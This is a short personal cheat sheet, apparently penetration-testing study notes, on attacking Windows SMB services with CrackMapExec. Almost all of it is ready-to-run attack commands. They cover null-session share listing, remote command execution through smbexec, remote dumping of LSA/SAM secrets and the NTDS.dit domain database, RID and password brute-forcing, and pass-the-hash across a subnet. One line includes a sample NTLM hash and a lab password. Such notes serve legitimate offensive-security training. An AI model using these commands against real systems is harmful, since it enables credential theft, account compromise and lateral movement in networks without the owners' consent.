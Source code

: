 ```yaml
---
tags:
  - linux
  - password-policy
  - SAM-registry-hive
  - lsass
  - smb
---
```

**OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 
# SMB
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
## SMBExec
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -x <COMMAND> --exec-method smbexec
```
>NOTE: If the `--exec-method` is not defined, CME will try to execute the `atexec` method by default
## Extract
### Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```
### Dump NTDS.dit
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --ntds
```
### Logged-on Users
```shell-session
$ crackmapexec smb <CIDR-RAMGE> -u administrator -p <PASSWORD> --loggedon-users
```
### Password Policy
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol
```
## Bruteforce
### Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```

## Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
